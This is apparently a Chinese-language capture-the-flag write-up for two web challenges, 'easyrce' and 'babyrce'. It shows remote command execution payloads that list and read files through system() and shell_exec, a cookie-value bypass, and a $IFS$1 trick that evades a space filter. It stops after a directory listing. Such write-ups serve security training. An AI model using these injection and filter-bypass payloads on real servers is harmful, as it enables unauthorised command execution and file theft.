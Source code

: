 ### easyrce

```
url=system("ls%20/");
```

回显 `bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var` ，

```
url=system("cat%20/flllllaaaaaaggggggg");
```

得到 flag。

### babyrce

```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?>
```

设置 Cookie `admin=1` ，即可到达下一关 。

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

通过分析可得空格被过滤，可以通过 `$IFS$1` 来绕过，构造 Payload 如下

```
url=ls$IFS$1/
```

得到回显 `bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var` ，
